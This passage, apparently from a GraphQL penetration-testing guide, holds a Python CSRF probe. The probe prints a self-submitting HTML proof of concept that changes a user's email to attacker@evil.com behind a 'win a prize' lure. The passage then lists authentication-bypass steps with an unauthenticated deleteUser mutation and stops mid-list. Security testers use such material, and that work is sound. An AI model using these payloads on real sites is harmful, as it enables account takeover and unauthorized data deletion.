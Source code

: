           response = requests.get(get_url)
           print(f"[*] Status code: {response.status_code}")
           if response.status_code == 200:
               print("[+] GET requests accepted - potential CSRF vulnerability")
           
           # Test 2: POST request with form encoding
           print("\n[*] Test 2: POST request with form encoding")
           headers = {"Content-Type": "application/x-www-form-urlencoded"}
           data = {"query": "mutation{updateEmail(email:\"test@example.com\"){success}}"}
           
           response = requests.post(url, headers=headers, data=data)
           print(f"[*] Status code: {response.status_code}")
           if response.status_code == 200:
               print("[+] Form-encoded POST requests accepted - potential CSRF vulnerability")
           
           # Test 3: POST without content type
           print("\n[*] Test 3: POST without Content-Type header")
           response = requests.post(url, data={"query": "mutation{updateEmail(email:\"test@example.com\"){success}}"})
           print(f"[*] Status code: {response.status_code}")
           if response.status_code == 200:
               print("[+] POST without Content-Type accepted - potential CSRF vulnerability")
           
           # Generate PoC if vulnerable
           if response.status_code == 200:
               print("\n[+] Creating CSRF PoC HTML:")
               poc_html = f"""
               <html>
                 <body>
                   <form action="{url}" method="POST" enctype="application/x-www-form-urlencoded">
                     <input type="hidden" name="query" value="mutation {{ updateEmail(email: &quot;attacker@evil.com&quot;) {{ success }} }}">
                     <input type="submit" value="Click me to win a prize!">
                   </form>
                   <script>document.forms[0].submit();</script>
                 </body>
               </html>
               """
               print(poc_html)
       
       # Example usage
       test_graphql_csrf("https://target.com/graphql")
       ```
    
    2. **Authentication bypass techniques**:
       - Step 1: Analyze the authentication mechanism used by the GraphQL API
       - Step 2: Test for unauthenticated access to sensitive queries and mutations
       - Step 3: Check for JWT vulnerabilities if JWTs are used
       - Step 4: Try parameter pollution with authentication headers
       - Step 5: Test for logic flaws in the authentication process
       - Example authentication bypass test:
       ```graphql
       # Test unauthenticated access to admin mutations
       mutation {
         deleteUser(id: "123") {
           success
         }
       }
       